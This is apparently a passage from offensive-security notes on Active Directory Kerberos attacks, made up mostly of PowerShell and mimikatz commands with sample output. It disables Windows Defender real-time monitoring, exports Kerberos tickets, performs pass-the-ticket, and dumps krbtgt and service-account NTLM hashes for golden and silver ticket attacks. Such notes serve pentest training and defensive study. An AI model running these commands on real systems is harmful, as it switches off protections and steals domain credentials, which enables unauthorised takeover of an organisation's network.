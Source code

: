 ```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

- Run the [mimikatz.exe](https://github.com/gentilkiwi/mimikatz)
- And check the running permission

```powershell
# run mimikatz.exe
.\mimikatz.exe

# check privs(running as admin)
mimikatz # privilege::debug 
Privilege '20' OK 

# dump all tickets (save the tickets in the current working folder)
mimikatz # sekurlsa::tickets /export
Authentication Id : 0 ; 407400 (00000000:00063768)
[..snip..]
# the tickets will be exported to the directory where mikiatz is currently running

# pass the ticket to the current session
kerberos::ptt {ticket-name}

# see the available / loaded tickets in the machine with the command
C:\Users\Administrator\Downloads> klist
```

### Golden / Silver Ticket Attacks

- Silver ticket has access only to the specific service
- Golden ticket has complete access over the kerberos service

```powershell
# run mimikatz
.\mimikatz.exe

# dump the krbtgt hash for golden ticket attack
mimikatz # lsadump::lsa /inject /name:krbtgt                       
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860
RID  : 000001f6 (502)                                        
User :krbtgt                                                  

 *Primary                                                       
    NTLM : 72cd714611b64cd4d5550cd2759db3f6
    LM   :                                                   
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6
[..snip..]

# dump the hash for a specific service for silver ticket attack
mimikatz # lsadump::lsa /inject /name:{service-name}
mimikatz # lsadump::lsa /inject /name:sqlservice
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 00000455 (1109)
User : sqlservice

 * Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
    ntlm- 0: cd40c9ed96265531b21fc5b1dafcfb0a
    lm  - 0: 7bb53f77cde2f49c17190f7a071bd3a0
[..snip..]
```